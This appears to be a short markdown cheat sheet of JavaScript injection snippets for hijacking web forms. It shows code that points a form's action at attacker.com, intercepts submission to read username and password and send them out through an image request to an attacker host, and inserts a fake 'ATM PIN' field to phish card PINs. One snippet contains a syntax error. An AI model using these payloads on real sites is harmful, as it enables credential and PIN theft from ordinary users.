 ### Change the image
```javascript
document.getElementsByTagName('img')[0].src="https://attacker.com/image.png";
```

### Get all the elements (textbox, button) of a form in form of an array
```javascript
document.forms[0].elements
```
### Get the value from the textbox
```javascript
document.forms[0].elements[0].value
```

### Modify form's submit action
```javascript
document.forms[0].action = "http://attacker.com/";
```

### Call the function on form submit
```javascript
document.forms[0].onsubmit = InterceptFunction;

function InterceptFunction(){
	// Do something
}
```

### Create a new image element on the page
```javascript
new Image().src = "http://localhost:8001/?username="+username+"&password=" + password;
```

### Hijack form submit
```javascript
document.forms[0].onsubmit = InterceptFunction;

function InterceptFunction() {
	var username = document.forms[0].elements[0].value;
	var password = document.forms[0].elements[1].value;
	
	new Image().src = "http://attackerdomain/?username="+username+"&password="password;
}
```

### Create new element and set the attributes
```javascript
var input = document.createElement("input");
input.setAttribute("type", "text");
input.setAttribute("class", "input-block-level");
input.setAttribute("placeholder", "ATM PIN");
input.setAttribute("name", "atmpin");

// Add element to the form
var previous = document.forms[0].elements[0];
document.forms[0].insertBefore(input, previous);
```
